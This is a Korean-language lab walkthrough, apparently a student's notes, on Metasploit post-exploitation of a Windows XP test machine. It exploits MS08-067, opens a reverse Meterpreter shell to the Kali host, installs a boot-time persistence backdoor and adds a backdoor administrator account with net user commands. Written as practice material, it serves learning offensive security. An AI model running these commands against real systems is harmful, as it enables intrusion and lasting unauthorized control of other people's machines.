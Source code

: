 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.  
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  

### 2. BackDoor 계정만들기
이제 우리는 BackDoor를 할 수 있는 계정을 만든다음에 관리자의 권한을 부여해보는 연습을 해볼 것이다.
WindowXp에서 공격을 수행하고 난 이후의 시점부터 볼 것이다.  
다음의 명령어를 통해 미터프리터 세션을 열고 shell을 열어준다.  
**shell**
**net user (원하는 이름) (원하는 비밀번호) /add**  
**net user**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%EC%83%9D%EC%84%B1.png)  
을 생성하고 이를 window Xp에서 보면 다음과 같은 결과가 나타나게 된다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8.png)  
또는 Kali에서 **net user** 명령어를 통해 확인이 가능하다.  

그러나 사진에서 보다싶이 제한된 권한을 가지고 있다.  
이를 adminstorator의 권한으로 올려주기 위해 다음과 같은 작업을 한다.  
**net localgroup administrators (계정이름) /add**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9.png)  
를 하고 다시 window에서 보면 다음과 같은 결과가 나타날 것이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9%ED%99%95%EC%9D%B8.png)  

만약 계정을 삭제하고 싶다면 다음의 명령어를 이용한다.
**net user (계정이름) (계정 비밀번호) /delete**  

**exit**  
**getsystem**  
**getuid**

이 명령어를 통해 시스템 권한과 권한이 얻어진것을 확인을 하고
다음의 명령어를 통해 시스템을 재부팅해본다.  
**ps**  
**migrate (explorer.exe 필자는 492)**  
**reboot**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EC%83%9D%EC%84%B1%ED%9B%84%20%EC%A2%85%EB%A3%8C%20%EC%A4%80%EB%B9%84.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%20%EC%9B%90%EA%B2%A9%EC%A2%85%EB%A3%8C.png)  
를 하면 windowXp가 정상적으로 재부팅이 되는 것을 볼 수 있다.
이후 시스템을 종료하고 다시 window에서 로그인화면을 보면 2가지의 계정이 생겼을 겻이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/WindowXp%EB%A1%9C%EA%B7%B8%EC%9D%B8%20%ED%99%94%EB%A9%B4.png)  

